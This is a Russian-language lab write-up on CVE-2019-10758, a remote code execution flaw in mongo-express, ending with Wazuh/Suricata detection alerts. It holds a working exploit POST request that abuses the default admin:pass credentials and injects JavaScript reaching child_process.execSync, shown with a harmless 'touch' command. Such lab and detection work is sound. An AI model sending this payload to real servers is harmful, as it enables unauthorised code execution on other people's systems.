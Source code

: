 # CVE-2019-10758

Mongo-express до версии 0.54.0 уязвим для удаленного выполнения кода через конечные точки, использующие метод toBSON. Если злоумышленник может успешно войти в систему или целевой сервер не изменил пароль учетной записи по умолчанию (admin:pass), он может выполнить произвольный код node.js.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8081 будет доступна веб-страница mongo-express

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости отправьте следующий POST-запрос с полезной нагрузкой

```
POST /checkValid HTTP/1.1
Host: ваш-ip:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В результате был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
